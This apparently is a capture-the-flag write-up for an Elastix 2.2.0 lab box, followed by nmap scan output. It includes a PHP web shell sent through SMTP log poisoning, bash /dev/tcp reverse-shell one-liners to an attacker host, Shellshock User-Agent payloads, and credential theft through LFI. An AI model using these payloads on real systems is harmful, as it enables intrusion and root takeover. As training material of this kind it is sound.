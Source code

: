 Method 2 (LFI to SSH as root):

* User - Elastix 2.2.0 - 'graph.php' Local File Inclusion (EDB-ID: 37637), allows us to view the settings of components of the Asterisk Management Portal, including usernames and passwords.
* Root - SSH as "root" using password found in config via LFI.

Method 3 (LFI to RCE via SMTP; sudo to root):

* User - Elastix 2.2.0 - 'graph.php' Local File Inclusion (EDB-ID: 37637), allows us to view the current user via the file /proc/self/environ, which confirms it is "asterisk". Connect to SMTP port, verify "asterisk" has a mailbox, and send an email from anyone to "asterisk", with some PHP code in the data section (eg \<?php system($\_GET\["CMD"]); ?> ). Then use the LFI to view the mail at /var/mail/asterisk, and append the command to the LFI (eg \&CMD=bash -i >& /dev/tcp/10.10.14.7/9999 0>&1) to get a shell as "asterisk".
* Root - User "asterisk" can run sudo on multiple commands including chmod, chown, nmap etc.

Method 4 (Shellshock on Webmin to RCE as root):

* Root - Webmin on port 10000 (http://10.10.10.7:10000) is vulnerable to Shellshock, however, the exploit is blind as the web server does not respond with output from commands. To exploit, verify using Shellshock in User-Agent header and the sleep command (eg. User-Agent: () { :;}; sleep 10 ). Get a reverse shell as root (eg. User-Agent: () { :;}; bash -i >& /dev/tcp/10.10.14.7/9999 0>&1).

## Enumeration:

### Nmap

Let's begin with a basic nmap scan for all TCP ports:

```
└─$ nmap -p- 10.10.10.7 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 06:16 EST
Nmap scan report for 10.10.10.7
Host is up (0.050s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
879/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 22.39 seconds

```
